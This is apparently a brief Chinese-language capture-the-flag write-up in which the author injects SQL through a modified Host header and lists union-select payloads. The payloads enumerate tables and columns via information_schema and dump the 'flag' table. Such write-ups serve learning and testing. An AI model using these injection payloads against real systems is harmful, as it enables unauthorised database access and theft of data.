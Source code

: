 修改HOST头 和平常一样的  看样子是直接查询了HOST内容

order by 4

union select 1,2,3,4     //2 3 4

union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = database()),3,4 //comment,flag,goods,user

union select 1,(select group_concat(column_name) from information_schema.columns where table_name = 'flag'),3,4 //id,flag

union select 1,(select group_concat(flag) from flag ),3,4 //id,flag